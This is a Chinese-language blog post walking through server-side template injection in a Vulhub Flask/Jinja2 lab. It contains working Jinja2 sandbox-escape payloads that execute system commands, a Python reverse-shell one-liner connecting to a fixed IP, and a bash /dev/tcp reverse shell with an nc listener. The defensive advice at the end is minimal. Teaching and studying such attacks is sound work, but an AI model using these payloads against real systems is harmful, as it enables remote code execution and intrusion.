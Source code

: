 ```yaml
---
layout: post
title:  "SSTI(模板注入)的攻防战"
categories: 漏洞
tags: 渗透测试 渗透 漏洞
author: 柠枫
---
```




* content
{:toc}








## 前言

SSTI 全称Server Side Template Injection，服务器模板注入，先上一张图,各位可先看图根据后文加深印象

![图片1.png](https://i.loli.net/2020/02/18/3KxRsYFz4nM81Pi.png)

## SSTI的简单讲解

模板引擎可以让（网站）程序实现界面与数据分离，业务代码与逻辑代码的分离，这大大提升了开发效率，良好的设计也使得代码重用变得更加容易。与此同时，它也扩展了黑客的攻击面。除了常规的 XSS 外，注入到模板中的代码还有可能引发 RCE（远程代码执行）。通常来说，这类问题会在博客，CMS，wiki 中产生。虽然模板引擎会提供沙箱机制，攻击者依然有许多手段绕过它。

和常见Web注入的成因一样，也是服务端接收了用户的输入，将其作为 Web 应用模板内容的一部分，在进行目标编译渲染的过程中，执行了用户插入的恶意内容，因而可能导致了敏感信息泄露、代码执行、GetShell 等问题。其影响范围主要取决于模版引擎的复杂性，所以说 用户的输入永远都是不可信的。

通过模板，Web应用可以把输入转换成特定的HTML文件或者email格式。就拿一个销售软件来说，我们假设它会发送大量的邮件给客户，并在每封邮件前SKE插入问候语，它会通过Twig（一个模板引擎）做如下处理：

```bash
$output = $twig->render( $_GET['custom_email'] , array("first_name" => $user.first_name) );
```

有经验的小伙伴可能会立刻想到xss，但是问题不止如此，此时我们可以尝试使用ssti：假设我们发送如下请求，

```bash
    custom_email={{7*7}} // GET 参数
    49  // $output 结果
```

    还有更神奇的结果：

```bash
    custom_email={{self}} // GET 参数
    Object of class
    __TwigTemplate_7ae62e582f8a35e5ea6cc639800ecf15b96c0d6f78db3538221c1145580ca4a5
    could not be converted to string // 错误
```

我们不难猜到服务器执行了我们传过去的数据。每当服务器用模板引擎解析用户的输入时，这类问题都有可能发生。除了常规的输入外，攻击者还可以通过 LFI触发它。模板注入和 SQL 注入的产生原因有几分相似——都是将未过滤的数据传给引擎解析。

## 实战

Vulnhub的Flask/Jinja2中的服务端模版注入

首先我们看看他的代码：

```php
from flask import Flask, request
from jinja2 import Template
app = Flask(__name__)
@app.route("/")
def index():
name = request.args.get('name', 'guest')
t = Template("Hello " + name)
return t.render()
if __name__ == "__main__":
app.run()
```

可以看到Template("Hello " +name)，Template()则是用户可控的，我们就可以这么来：

![图片2.png](https://i.loli.net/2020/02/18/HVuZ9v5RSAQjGWs.png)

![图片3.png](https://i.loli.net/2020/02/18/X7ohF6zIaYAxrq2.png)

随手尝试一波xss，这边是没有经过任何处理的 所以有xss很正常

此时写入模板语句:

![图片4.png](https://i.loli.net/2020/02/18/GK3xRF7ifA1Y85U.png)

可以看到也是能成功执行的，那么我们需要怎么利用呢？

我们知道 在python当中 执行系统命令需要import os模块；

然而 想要在模板中直接调用内置模块 os，即需要在模板环境中对其注册

需要在上层的代码里加一句:

```php
t.globals['os'] = os
```

如果没有加这一句，直接使用os中的方法会报错。
那么，如何在未注册 os 模块的情况下在模板中调用 popen() 函数执行系统命令呢？这就要用各种下划线函数了。

且因为python2与python3存在差异 所以这里找到了个通用的payload

```php
for c in ().__class__.__bases__[0].__subclasses__():
    if c.__name__=='_IterationGuard':         c.__init__.__globals__['__builtins__']['eval']("__import__('os').system('whoami')")
```

用jinja的语法即为（执行命令使用os.popen('whoami').read()才有执行结果的回显）

```bash
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__==\'_IterationGuard\' %}
{{ c.__init__.__globals__['__builtins__']['eval']("__import__('os').popen('whoami').read()\") }}
{% endif %}
{% endfor %}
```

```bash
看到别的大神也有使用func_global模块的linecache 我这里也把代码贴出来 其实都是差不多的：
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
{{c.__init__.func_globals['linecache'].__dict__['os'].system('id') }}
{% endif %}
{% endfor %}
```

![图片5.png](https://i.loli.net/2020/02/18/HyIEcUkF7VaWhb1.png)

可以看到成功执行了whoami命令 后续的话想反弹shell可以直接用python反弹或者bash...

```python
python -c
'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("192.168.80.134",1234));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/bash","-i"]);
'
```

```bash
Bash:
受害机命令
bash -i >& /dev/tcp/x.x.x.x/1234 0>&1

本机命令
nc -lvvvp 1234
```

## 防御

* 尽可能加载静态模板文件
* 不要允许用户控制此类文件或其内容的路径
